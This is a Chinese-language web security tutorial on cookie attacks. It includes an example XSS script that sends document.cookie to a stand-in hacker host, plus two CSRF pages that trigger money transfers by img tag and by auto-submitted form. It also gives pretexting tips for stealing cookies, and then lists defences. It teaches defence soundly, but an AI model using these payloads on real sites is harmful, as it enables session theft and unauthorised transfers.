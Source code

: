 # Web 安全
## XSS

## Cookie
我们会将用户身份标识信息 (看起来是很长的一串乱码) 放在 Cookie 当中，HTTP 请求发送给服务器后，服务器根据 Cookie 是否正确来判断身份。所以 Cookie 就成了重点攻防目标，对此主要有两种攻击思路。
- 窃取 Cookie，然后黑客就能伪装成用户进行转账操作
- 不窃取 Cookie，通过 CSRF 让用户在不知情的情况下发起转账的 HTTP 请求

窃取 Cookie 的笨办法：
- 可以直接把用户电脑偷偷拿出来，打开浏览器进入淘宝，然后在开发者工具中可以查看网站的 Cookie，把这个 Cookie 复制出来，最后把电脑偷偷放回去
- 找一些借口 (如：维修电脑)，用 QQ 远程桌面控制等方法远程控制用户的电脑，然后打开浏览器将 Cookie 复制出来

### XSS 窃取 Cookie
通过 XSS 漏洞注入下面这样的 JS 脚本。

```javascript
var cookie = document.cookie;  // 1. 获取 Cookie 信息
var xhr = new XMLHttpRequest();
xhr.open('http://heike.com?cookie=' + cookie);  // 2. 将 Cookie 信息发送到黑客服务器
xhr.send();
```

### CSRF
假设 A 站点是黑客的网站，黑客诱导用户进入 A 网站，然后 A 站点会给 B 站点发送 HTTP 请求。比如说 B 站点的转账接口是这样的：`b.com/withdraw?account=bob&amount=10000&for=mallory`，只要给这个 URL 发送 HTTP 请求，同时带上用户自己的 Cookie，那么服务器就会认为用户发起了转账。

A 站点可以这样设计来自动发起 CSRF GET 请求：
```html
<html>
<body>
    <img src="http://b.com/withdraw?account=bob&amount=10000&for=mallory" />
</body>
</html>
```

A 站点也可以这样设计来自动发起 CSRF POST 请求：
```html
<html>
<body>
  <form id='hacker-form' action="http://b.com/pay" method=POST>
    <input type="hidden" name="account" value="bob" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="mallory" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```


### Cookie 攻防总结
首先参考资料是 [MDN 的文档](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)，一定要自己去看，对于网上已经整理的很好的知识点，我这边不会再重复一遍。

如果你已经把参考资料看完了，那么我们做一个总结。

XSS 攻击的防范：
- 最好前后端都对 `<script>` 做过滤或转义，避免留下 XSS 漏洞
- 给敏感的 Cookie 加上 HttpOnly 属性，不敏感的不需要加以便简化开发

CSRF 攻击的防范：
- Cookie 加上 SameSite 属性
- 服务器验证 HTTP 请求头中的 Referer、Origin 字段，验证请求发起的来源
- 使用 CSRF Token

其它注意：
- 特别敏感的操作要进行二次验证 (如短信验证码)
